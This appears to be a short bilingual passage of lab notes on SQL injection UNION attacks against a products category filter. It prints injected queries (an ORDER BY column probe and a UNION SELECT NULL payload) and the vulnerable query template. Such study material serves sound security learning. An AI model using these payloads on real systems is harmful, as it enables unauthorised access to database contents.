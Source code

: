 - Injection

```sql
SELECT * FROM products WHERE category = 'Accessories' order by 3-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = 'Accessories' union select NULL,'test',NULL-- -' AND released = 1
```

## Ataque UNION: extrayendo datos de otras tablas || SQL injection UNION attack, retrieving data from other tables

- Query SQL

```sql
SELECT * FROM products WHERE category = '$INPUT$' AND released = 1
```

- Explotation

![](/img2/Pasted%20image%2020250708163727.png)
